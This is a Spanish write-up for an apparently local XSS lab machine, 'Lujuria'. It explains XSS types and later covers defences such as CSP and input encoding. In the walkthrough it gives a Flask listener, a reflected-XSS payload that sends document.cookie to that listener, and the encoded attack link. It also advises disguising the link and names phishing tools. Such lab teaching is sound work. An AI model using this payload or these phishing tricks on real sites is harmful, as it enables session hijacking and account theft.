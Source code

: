 = Lujuria
:author: Manuel L. Quero
:revdate: 2025-03-13
:toc: left
:doctype: book

== Ataque XSS

Este ataque permite a los atacantes implantar scripts maliciosos en un sitio web legítimo (también víctima del atacante) para ejecutar un script en el navegador de un usuario desprevenido que visita dicho sitio y afectarlo, ya sea robando credenciales, redirigiendo al usuario a otro sitio malicioso, o para cambiar la apariencia de un sitio web.

=== Tipos de ataques XSS

Existen tres tipos de ataques XSS:

==== Reflejado/Indirecto

El atacante envía un enlace malicioso a la víctima, la víctima hace clic en el enlace y el servidor refleja el código malicioso en la respuesta. Se trata de la variedad de XSS más simple y el script malicioso que busca afectar el navegador de la víctima es fácilmente modificable, probablemente sin que el usuario note el ataque.

image::assets/reflected.png[Reflejado]

==== Persistente/Directo/Almacenado

El atacante envía un enlace malicioso a la víctima, la víctima hace clic en el enlace y el servidor almacena el código malicioso en la base de datos. De esta forma persiste el script inofensivo, hasta que el valor es recuperado por la aplicación y utilizado para conformar parte del documento HTML. Ejemplos de esto pueden ser: los comentarios de sitios web, entradas de blog, nombres de usuario, chats, formularios de contacto, detalle de alguna orden, etc.

image::assets/stored.png[Persistente]

==== Document Object Model (DOM)

El atacante envía un enlace malicioso a la víctima, la víctima hace clic en el enlace y el código malicioso se ejecuta en el navegador de la víctima. DOM facilita la estructura de documentos como HTML o XML y permite a los programas modificar la estructura, estilo y contenido del documento. El ataque DOM XSS se produce cuando el código malicioso se ejecuta en el navegador de la víctima, pero no se envía al servidor. Esto lleva a que el usuario ejecute código desde el lado del cliente sin saber que lo está haciendo.

.Algunas funciones JavaScript vulnerables
[%collapsible]
====
Algunas funciones en JavaScript que pueden ser un indicador de un posible punto vulnerable son:

    domain
    write()
    writeln()
    innerHTML
    insertAdjacentHTML
    onevent
    Element.outerHTML

Sin olvidar las librerías como JQuery, en donde utiliza métodos específicos para facilitar algunas funciones tradicionales del propio JavaScript, u otras librerías sin la adecuada codificación de los datos:

    $.parseHTML()
    add()
    after()
    animate()
    append()
    before()
    constructor()
    has()
    html()
    index()
    init()
    insertAfter()
    insertBefore()
    parseHTML()
    prepend()
    replaceAll()
    replaceWith()
    wrap()
    wrapAll()
    wrapInner()
====

image::assets/dom.png[DOM]

== Solucionar la máquina

Vamos a ver en esta guía como solucionar la máquina *Lujuria*. Se basa en el robo de cookies, por un XSS reflejado y un ligero ataque de phising.

En nuestro caso, actuaremos como *_víctima_* y como *_atacante_*.

* Desde el punto de vista de la *_víctima_* deberemos saber las credenciales para loguearnos y dejar la cuenta abierta. 
* Desde el punto de vista del *_atacante_* no deberemos saber las credenciales del usuario, pero le enviaremos una campaña de phising ficticia a la víctima.

Sería conveniente utilizar una distribución Linux, es recomendable usar Kali Linux.

=== Despliegue de la máquina

Como requisito, necesitaremos tener instalado docker y docker-compose.

Podemos ver como instalar docker para varias distribuciones de linux -> https://docs.docker.com/engine/install/[Instalar Docker]

Podemos ver como instalar docker-compose para varias distribuciones de linux -> https://docs.docker.com/compose/install/linux/[Instalar Docker-Compose]

Necesitaremos descargar primeramente el auto_deploy.sh, el cual se muestra como una pirámide en la página. Después deberemos meter en un directorio tanto el auto_deploy.sh como el archivo de lujuria.tar, y ejecutar los siguientes comandos.

(Si el auto_deploy no tiene permisos se los damos mediante *chmod +x*). 

[source,bash]
----
$ sudo bash auto_deploy.sh lujuria.tar
----

Como el despliegue es en local, para comprobar que todo se ha realizado correctamente, deberemos crear dos usuarios en nuestro navegador de confianza:

[cols="1,1"]
|===
|Navegador|URL

|Firefox
|about:profiles

|Brave
|brave://settings/manageProfile

|Chrome
|chrome://settings -> "Personas"

|Opera
|opera://settings/side-profiles-settings
|===

=== Víctima

Con la máquina desplegada, abrimos nuestra sesión en firefox e introducimos la IP que nos devolverá el *autodeploy.sh*. Una vez en la página de login, introducimos nuestras credenciales (usuario: dante, contraseña: dante123). Una vez dentro de la página, nos quedamos logueados.

=== Atacante

==== Despliegue de servidor a la escucha

Siendo atacantes, vamos a crear un archivos .py con el siguiente script. Este script crea un servidor local que está a la escucha en el puerto 1337. 

Código tomado de https://skf.gitbook.io/asvs-write-ups/httponly-session-hijacking-xss/httponly-session-hijacking-xss#exploitation[Security Knowledge Framework]

.Ver código
[%collapsible]
====
[source,python]
----
from flask import Flask, request, url_for, render_template, redirect, make_response
import requests

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/<steal_cookie>", methods=['GET'])
def start(steal_cookie):
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
----
====
Para poder utilizar este código deberemos tener descargado python3 y después descargaremos las librerias flask y requests. Por último iniciamos el programa.

[source,bash]
----
$ sudo apt install python3
$ pip install flask
$ pip install requests
$ python3 app.py
----

==== Creación de URL maliciosa

Entonces nuestra intención es que la víctima inyecte sin darse cuenta código malicioso javascript. Como atacantes, debemos saber que en la página después de login hay un bloque de texto y que esta es *welcome.php*. 

Entonces vamos a crear nuestra URL maliciosa:

. Comenzamos sabiendo que es el servidor es http, así que no tiene seguridad. [http://]
. Sabemos que el dominio es la IP dada por el *autodeploy.sh*. [http://IP/]
. También conocemos que el servidor tiene la página *welcome.php* y que tiene un bloque de texto. [http://IP/welcome.php?q=] (?q= es la query que espera)
. Y por último nuestro script en javascript, que le enviará las cookies al puerto que abre el .py:

[source,javascript]
----
<script>new Image().src="http://localhost:1337/?stolen_cookie="+document.cookie;</script>
----

Entonces nuestra URL maliciosa quedaría tal que:

----
http://IP/welcome.php?q=<script>new Image().src="http://localhost:1337/?stolen_cookie="+document.cookie;</script>
----

Pero esta URL no la entenderá correctamente el navegador, tenemos que codificarla:

----
http://localhost:8080/welcome.php?q=%3Cscript%3Enew%20Image().src%20%3D%20%22http%3A%2F%2Flocalhost%3A1337%2F%3Fstolen_cookie%3D%22%20%2B%20document.cookie%3B%3C/script%3E
----

==== Los detalles importan

Y si nos gusta atender al detalle, sería recomendable acortar la URL, para que no sea tan sospechosa, incluso podremos enmascararla con algunos programas. Ya que fondomarcador.com posee un acortador, podemos utilizarlo y que parezca menos sospechoso.

Como dato informativo, también existen varios programas en github que nos ayudan a enmascarar nuestra URL o hacernos pasar por otras páginas:

* https://github.com/darkmidus/HiddenEye[HiddenEye] -> HiddenEye es una herramienta de phishing avanzada que permite simular páginas de inicio de sesión falsas para recopilar credenciales. Puede generar enlaces personalizados y utiliza técnicas para evadir detección. También incluye opciones para personalizar ataques dirigidos y simular captchas.
* https://github.com/yangr0/BlackPhish[BlackPhish] -> BlackPhish es una herramienta para realizar ataques de phishing. Permite crear páginas web maliciosas que se asemejan a servicios populares para recolectar datos. Este programa es modular y está diseñado para principiantes en pruebas de penetración.
* https://github.com/Darkmux/URLSpoof[URLSpoof] -> URLSpoof es una herramienta para simular enlaces visualmente similares a URLs legítimas mediante el uso de caracteres Unicode. Está diseñada para demostrar ataques de ingeniería social basados en la confianza en los nombres de dominio.
* https://github.com/UndeadSec/EvilURL[EvilURL] -> EvilURL genera URLs maliciosas que parecen auténticas mediante el uso de caracteres Unicode similares (homoglyphs). Se utiliza para probar la protección de los navegadores frente a ataques de phishing y spoofing de enlaces.

=== Finalizar

Como *atacante* entramos en nuestro perfil del navegador y nos metemos en la IP del servidor. Entonces deberemos darle al *F12* e irnos a la sección de *almacenamiento* y en *cookies*, cambiar la nuestra por la de la víctima. Una vez hecho esto, en la barra del navegador deberemos acceder a */welcome.php* y ya estaremos dentro.

== ¿Cómo prevenir?

=== Herramientas

Hay varias herramientas que nos permiten identificar ataques XSS o exploits en nuestra página.

* https://github.com/epsylon/xsser[epsylon/xsser]
* https://beefproject.com/[beefproject]
* https://github.com/s0md3v/XSStrike[s0md3v/XSStrike]
* https://github.com/ssl/ezXSS[ssl/ezXSS]

=== Para usuarios

Desde el punto de vista del cliente, lo mejor es *desactivar JavaScript*, de esta forma ataques de DOM XSS cómo su objetivo son los códigos de Java del explorador, no tendría ningún efecto. También hay add-ons para los navegadores como https://noscript.net/[NoScript] su configuración estándard fija el bloqueo automático de contenidos activos tales como JavaScript, Java Applets, Adobe Flash o Microsoft Silverlight.

=== Para administradores web

* *Implementar una política de seguridad de contenido* -> Definir políticas de seguridad de contenido (CSP) sólidas para el sitio web y la aplicación web, e implementarlas en los servidores web. Una CSP es una capa adicional de seguridad que puede detectar y mitigar ciertos tipos de ataques. Para evitar los ataques XSS, restringe los scripts que se pueden ejecutar. 

* *Cookies seguras* -> Los equipos de seguridad pueden establecer reglas especiales sobre cómo los servidores web manejan las cookies para reducir la probabilidad de robo de cookies. Por ejemplo, pueden vincular las cookies a direcciones IP específicas.

* *Firewall de aplicación web (WAF)* -> Un https://www.cloudflare.com/es-es/learning/ddos/glossary/web-application-firewall-waf/[WAF], funcionando como un proxy inverso situado en un servidor delante de aplicaciones web, protege a esas aplicaciones supervisando y filtrando el tráfico HTTP entre las aplicaciones e Internet. Las organizaciones pueden establecer reglas WAF para inspeccionar las URL en busca de scripts maliciosos y bloquearlos para que no se reflejen a los usuarios. Las soluciones WAF con aprendizaje automático ofrecen una protección aún mayor al detectar los intentos de eludir las reglas e identificar las variaciones de los ataques conocidos.

* *Codificación* -> Escapar de la entrada del usuario para que el navegador la interprete solo como datos, no como código. El tipo más reconocible de codificación en el desarrollo web está escapando HTML, que convierte los caracteres como en < y >, respectivamente.

* *Validación* -> La validación es el acto de filtrar la entrada del usuario para que se eliminen todas las partes malintencionadas, sin eliminar necesariamente todo el código que contiene. Uno de los tipos de validación más reconocibles en el desarrollo web es permitir algunos elementos HTML (como <em> y <strong>) pero no permitir otros (como <script>).

* *Clasificar en listas* -> Poner en la lista negra como no válida aquellas cadenas que coincidan con el patrón, la lista negra puede resultar complejo al tener que plantearse las posibilidades. Podríamos usar listas blancas, en lugar de definir un patrón prohibido, un enfoque de lista blanca define un patrón permitido y marca el ingreso como inválido si no coincide con este patrón. Esto resulta mucho más sencillo y longevo (de larga duración).

* *Cambiar la entrada* -> Si la entrada no es válida podríamos rechazarla o desinfectarla eliminando las partes no válidas

Para ampliar más la información vease -> https://www.w3.org/blog/2025/how-to-protect-your-web-applications-from-xss/[W3C XSS 2025]

Cómo hemos podido ver hay muchas formas de mitigar este tipo de ataques, aunque siempre será posible saltarse todo este tipo de protección, ya que la seguridad no nos proporciona estar seguros siempre, deberemos estar siempre alerta, ya que el mal siempre acecha desde todo el mundo.

----
"El único sistema verdaderamente seguro es aquel que está apagado, desconectado, encerrado en un bloque de hormigón y sellado en una habitación con guardias bien pagados. Y aun así, no apostaría por ello."

- Eugene H. Spafford
----